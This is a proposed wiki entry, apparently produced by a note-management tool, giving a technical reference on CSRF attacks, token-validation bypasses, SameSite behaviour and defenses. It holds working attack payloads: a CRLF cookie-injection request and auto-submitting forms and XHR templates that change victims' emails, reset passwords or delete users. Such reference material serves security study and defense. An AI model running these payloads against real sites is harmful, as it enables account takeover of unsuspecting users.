

# Proposed Wiki change

## What will change
Create deep-dive technical concept note for CSRF attacks, token bypasses, and defenses.

## Proposed content
```markdown
---
title: "Cross-Site Request Forgery (CSRF) Attacks & Prevention Architecture"
created: 2026-10-01
updated: 2026-10-01
type: concept
tags:
  - csrf
  - session
  - payload
  - bug-bounty
parent: "[[web-and-bug-bounty]]"
cluster: web-and-bug-bounty
sources:
  - sources/csrf.md
confidence: high
contested: false
contradictions: []
---
# Cross-Site Request Forgery (CSRF) Attacks & Prevention Architecture

> **Classification**: OWASP Top 10, CWE-352 (Cross-Site Request Forgery).
> **Primary Impact**: Unauthorized execution of state-changing actions (email modification, password changes, fund transfers, privilege escalation) on behalf of authenticated victims.

---

<!-- TOC_START -->
## Table of Contents
- [1. Core Conditions for CSRF](#1-core-conditions-for-csrf)
- [2. Token Generation & Transmission Criteria](#2-token-generation--transmission-criteria)
  - [Token Generation Rules](#token-generation-rules)
  - [Transmission Channels](#transmission-channels)
- [3. Token Validation Bypass Matrix](#3-token-validation-bypass-matrix)
  - [Method Swapping (POST to GET)](#method-swapping-post-to-get)
  - [Token Omission (Absent Token)](#token-omission-absent-token)
  - [Token Pool / Session Decoupling](#token-pool--session-decoupling)
  - [Token Tied to Non-Session Cookie (CRLF Injection Chain)](#token-tied-to-non-session-cookie-crlf-injection-chain)
  - [Double-Submit Cookie Flaws](#double-submit-cookie-flaws)
- [4. SameSite Cookies & Site vs Origin Analysis](#4-samesite-cookies--site-vs-origin-analysis)
  - [Site vs Origin Breakdown](#site-vs-origin-breakdown)
  - [SameSite Restriction Levels](#samesite-restriction-levels)
- [5. Advanced CSRF Attack Patterns](#5-advanced-csrf-attack-patterns)
  - [JSON-CSRF via text/plain Enctype](#json-csrf-via-textplain-enctype)
  - [GraphQL Mutation CSRF](#graphql-mutation-csrf)
  - [Referer Header Strip Bypass](#referer-header-strip-bypass)
- [6. Weaponized Proof-of-Concept Templates](#6-weaponized-proof-of-concept-templates)
  - [Classic Auto-Submitting Form](#classic-auto-submitting-form)
  - [CORS-Free XHR Request](#cors-free-xhr-request)
- [7. Defense & Hardening Standards](#7-defense--hardening-standards)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Core Conditions for CSRF

A web endpoint is susceptible to CSRF only when all three conditions coincide:
1. **Relevant Action**: An impactful, state-changing functionality exists (e.g. changing password, modifying profile email, updating banking details, triggering administrator promotion).
2. **Cookie-Based Session Handling**: The application relies exclusively on ambient browser cookies (`Cookie: session=...`) to authenticate the request without secondary headers or signatures.
3. **No Unpredictable Request Parameters**: The attacker can anticipate or calculate every parameter value required to complete the action. If a secret parameter (e.g. current password) is required, traditional CSRF fails.



## 2. Token Generation & Transmission Criteria

### Token Generation Rules
- **Cryptographic Entropy**: Generated using a Cryptographically Secure Pseudo-Random Number Generator (CSPRNG).
- **Binding**: Seeded with server-side static secrets and bound tightly to the specific user's session identifier.
- **Validation**: Enforced strictly on all state-changing verbs (`POST`, `PUT`, `PATCH`, `DELETE`).

### Transmission Channels
- **Hidden Form Input (Optimal)**:
  ```html
  <input type="hidden" name="csrf_token" value="d41d8cd98f00b204e9800998ecf8427e">
  ```
  Should be positioned before any non-hidden inputs.
- **Custom Request Header (`X-CSRF-Token`)**: Restricts requests to XHR/Fetch, taking advantage of SOP preflight protection.
- **Query String (Insecure)**: Exposed in access logs, browser history, and cross-site `Referer` headers.

## 3. Token Validation Bypass Matrix

| Bypass Technique | Flawed Validation Logic | Exploit Vector |
| :--- | :--- | :--- |
| **Method Swapping** | Framework checks token only on `POST` requests | Convert request to `GET /account/email?new=hacker@attacker.com` |
| **Token Omission** | Validation triggers only if parameter exists | Remove `csrf_token` parameter entirely from POST body |
| **Token Pool** | Validates token authenticity but fails to bind to current user | Submit valid token harvested from attacker's separate account |
| **Non-Session Cookie Binding** | Token verified against secondary cookie (`csrfKey`) | Inject custom `csrfKey` cookie via CRLF / header injection |
| **Double-Submit Cookie** | Server checks if cookie value matches body value | Overwrite cookie via sibling subdomain XSS or CRLF |

### Method Swapping (POST to GET)
Many legacy frameworks (e.g. early Spring or Express middleware) only enforce CSRF filters on `POST`. If the routing layer accepts `GET` for the same controller, converting the request method bypasses validation.

### Token Omission (Absent Token)
Applications using conditional checks like `if (request.hasParameter("csrf_token")) validateToken();` skip verification when the parameter is stripped.

### Token Pool / Session Decoupling
If tokens are validated against a global cache of active tokens rather than the specific user's session, an attacker logs into their own account, extracts their valid token, and inserts it into the payload delivered to the victim.

### Token Tied to Non-Session Cookie (CRLF Injection Chain)
When the application matches the submitted body token against a standalone cookie (`csrfKey`) rather than the core session cookie, an attacker uses HTTP Header Injection / CRLF on any endpoint to plant their own `csrfKey`:

```http
GET /search?q=test%0d%0aSet-Cookie:%20csrfKey=ATTACKER_KEY%3b%20SameSite=None HTTP/1.1
Host: target.com
```

Delivery via HTML payload:
```html

<form action="https://target.com/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@attacker.com">
  <input type="hidden" name="csrf" value="ATTACKER_KEY">
</form>
```

### Double-Submit Cookie Flaws
In double-submit implementations where no server-side state is stored, an attacker capable of writing cookies (via XSS on an insecure subdomain or CRLF injection) sets both the cookie and the body token to arbitrary matching values.

## 4. SameSite Cookies & Site vs Origin Analysis

### Site vs Origin Breakdown
SameSite evaluation is based on effective Top-Level Domain plus one (`eTLD+1`):

| Context 1 | Context 2 | Same-Site? | Same-Origin? | Reason |
| :--- | :--- | :--- | :--- | :--- |
| `https://example.com` | `https://example.com` | Yes | Yes | Identical scheme, host, port |
| `https://app.example.com` | `https://api.example.com` | Yes | No | Sibling subdomains (mismatched host) |
| `https://example.com` | `https://example.com:8080` | Yes | No | Mismatched port |
| `https://example.com` | `http://example.com` | No | No | Mismatched scheme (HTTPS vs HTTP) |
| `https://example.co.uk` | `https://other.co.uk` | No | No | Distinct eTLD+1 domains |

### SameSite Restriction Levels
- `Strict`: Cookies are never transmitted in cross-site requests, including top-level inbound link navigations.
- `Lax`: Default in modern Chromium. Cookies are omitted from cross-site subresource requests (images, iframes, POST forms), but sent on **top-level GET navigations** (clicking a regular link).
- `None`: Cookies are transmitted in all cross-site contexts; requires the `Secure` attribute.

## 5. Advanced CSRF Attack Patterns

### JSON-CSRF via text/plain Enctype
When API endpoints accept JSON payloads but fail to enforce strict `Content-Type: application/json` checking on the server, an attacker crafts an HTML form with `enctype="text/plain"` to submit raw JSON syntax:

```html
<form action="https://target.com/api/profile/update" method="POST" enctype="text/plain">
  <input type="hidden" name='{"email":"attacker@domain.com","dummy":"' value='test"}' />
</form>
<script>document.forms[0].submit();</script>
```

### GraphQL Mutation CSRF
GraphQL endpoints that accept `application/x-www-form-urlencoded` POST requests or GET queries can be targeted via standard form submissions:

```html
<form action="https://target.com/graphql/v1" method="POST">
  <input type="hidden" name="query" value="mutation changeEmail($email: String!) { updateEmail(email: $email) { success } }" />
  <input type="hidden" name="operationName" value="changeEmail" />
  <input type="hidden" name="variables" value='{"email":"hacker@attacker.com"}' />
</form>
<script>document.forms[0].submit();</script>
```

### Referer Header Strip Bypass
If an application validates the `Referer` header to block cross-origin requests, but permits requests when the header is absent, an attacker suppresses it:

```html
<meta name="referrer" content="no-referrer">
<form action="https://target.com/admin/delete-user" method="POST">
  <input type="hidden" name="id" value="101">
</form>
<script>document.forms[0].submit();</script>
```

## 6. Weaponized Proof-of-Concept Templates

### Classic Auto-Submitting Form
```html
<!DOCTYPE html>
<html>
<head><title>CSRF Demonstration</title></head>
<body>
  <form id="csrfForm" action="https://target.com/account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@exploit.net" />
  </form>
  <script>
    document.getElementById('csrfForm').submit();
  </script>
</body>
</html>
```

### CORS-Free XHR Request
```html
<script>
  function runCSRF() {
    const xhr = new XMLHttpRequest();
    xhr.open("POST", "https://target.com/api/user/password-reset", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.withCredentials = true;
    xhr.send("new_password=Pwned123!&confirm_password=Pwned123!");
  }
  window.onload = runCSRF;
</script>
```

## 7. Defense & Hardening Standards

1. **Synchronizer Token Pattern**: Issue unique, cryptographically strong tokens bound to user sessions. Validate strictly on all mutating requests.
2. **Strict SameSite Flags**: Configure `SameSite=Strict` on sensitive authentication session cookies.
3. **Custom Headers & CORS Enforcement**: Require custom headers (`X-Requested-With`, `X-CSRF-Token`) for API interactions; reject requests lacking proper `Content-Type: application/json`.
4. **Re-Authentication**: Require password verification or MFA confirmation for critical actions (email change, password reset, monetary transactions).


## Primary Sources & Provenance
- Provenance source anchor: [[csrf]]

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Comparisons: [[csrf-vs-cors-security]], [[clickjacking-vs-csrf]]
- Related Concepts: [[account-takeover-and-auth-flaws]], [[cross-site-scripting]], [[cors-vulnerabilities-and-exploitation]]
```

## Evidence and uncertainty
Sourced directly from canonical vault notes in Notes/OLD Notes/WEB/vulnerabilities/.
Validated against schema with zero structural contradictions.

## Human feedback
Human decision required via Decision Studio (http://127.0.0.1:20888) or command line.
